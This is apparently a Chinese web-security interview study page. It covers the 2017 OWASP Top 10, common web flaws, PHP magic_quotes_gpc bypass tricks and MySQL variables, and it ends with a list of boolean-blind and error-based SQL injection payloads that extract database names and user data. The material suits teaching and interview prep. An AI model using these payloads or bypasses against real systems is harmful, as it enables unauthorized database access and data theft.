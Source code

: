     -   复测报告

## 17年OWASP TOP10

-   注入:sql,nosql,ldap,os
-   失效的身份认证:
-   敏感信息泄漏
-   XXE XML外部实体
-   失效的访问控制：管理页面仅能管理员权限访问；越权漏洞
-   安全配置错误：页面错误信息，默认密码，使用已知漏洞的应用
-   XSS
-   不安全的反序列化：一个PHP论坛使用PHP对象序列化来保存一个cookie，用户修改cookie即可伪造管理员登陆
-   使用含有已知漏洞的组件：比如structs2框架
-   不足的日志记录和监控：代码被删除，无法溯源；记录登陆失败次数；监控问题没被管理员响应

## 常见的Web安全漏洞

-   SQL注入
-   XSS
-   文件遍历、文件上传、文件下载
-   垂直越权、水平越权
-   逻辑漏洞

## MySQL面试题
### 什么是事务？

事务是一组原子性的SQL语句或者说是一个独立的工作单元，如果数据库引擎能够成功对数据库应用这组SQL语句，那么就执行，如果其中有任何一条语句因为崩溃或其它原因无法执行，那么所有的语句都不会执行。也就是说，事务内的语句，要么全部执行成功，要么全部执行失败

### GPC是什么？GPC之后怎么绕过？

如果`magic_quotes_gpc=On`，PHP解析器就会自动为post、get、cookie过来的数据增加转义字符“\\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符（认为是php的字符）引起的污染。

- 可以尝试从session中提交数据
- 二次编码
- 函数处理,如substr($_GET['a'], 1);

### Mysql一个@和两个@什么区别

-   @为用户变量，使用`SET @var1=1`赋值
-   @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`

### 注入/绕过常用的函数

1.  基于布尔SQL盲注
    -   `left(database(),1)>'s'`
    -   `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    -   `ascii(substr((select database()),1,1))=98`
    -   `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    -   `regexp`正则注入 `select user() regexp '^[a-z]';`
    -   `select user() like 'ro%'`
2.  基于报错的SQL盲注
    -   `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;`
